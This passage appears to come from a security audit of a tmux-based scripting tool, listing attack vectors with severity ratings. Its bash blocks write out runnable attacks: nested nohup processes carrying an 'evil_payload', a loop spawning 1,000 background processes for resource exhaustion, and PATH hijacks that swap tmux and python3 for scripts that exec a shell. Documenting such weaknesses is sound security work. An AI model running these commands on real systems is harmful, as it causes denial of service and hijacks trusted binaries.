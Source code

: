 2. **Process Tree Manipulation:**
   ```bash
   # Create nested nohup processes
   ./schedule_with_note.sh 60 "nohup ./schedule_with_note.sh 60 'evil_payload' &" session:0
   ```

3. **Resource Exhaustion Attack:**
   ```bash
   # Create unlimited background processes
   for i in {1..1000}; do
     ./schedule_with_note.sh 1 "fork_bomb" session:0 &
   done
   ```

**Attack Prerequisites:**
- Ability to execute schedule_with_note.sh
- Knowledge of target session identifiers
- Understanding of Unix process management

**Impact:**
- Persistent elevated privileges
- System resource exhaustion
- Denial of service conditions
- Untrackable background processes

### 2.3 PATH Manipulation and Binary Hijacking

**Attack Vector ID:** AV-PE-003  
**Severity:** MEDIUM  
**CVSS Score:** 6.7 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)  
**Exploitability:** Moderate

**Technical Details:**
The system executes various binaries (tmux, python3, bc) without absolute paths, enabling PATH manipulation attacks:

**Exploitation Pathways:**
1. **Binary Replacement:**
   ```bash
   # Create malicious tmux binary
   mkdir /tmp/evil
   echo '#!/bin/bash' > /tmp/evil/tmux
   echo 'exec /bin/bash' >> /tmp/evil/tmux
   chmod +x /tmp/evil/tmux
   PATH=/tmp/evil:$PATH ./send-claude-message.sh session:window "test"
   ```

2. **Python Script Hijacking:**
   ```bash
   # Create malicious python3 interpreter
   echo '#!/bin/bash' > /tmp/python3
   echo 'exec /bin/bash' >> /tmp/python3
   chmod +x /tmp/python3
   PATH=/tmp:$PATH python3 tmux_utils.py
   ```
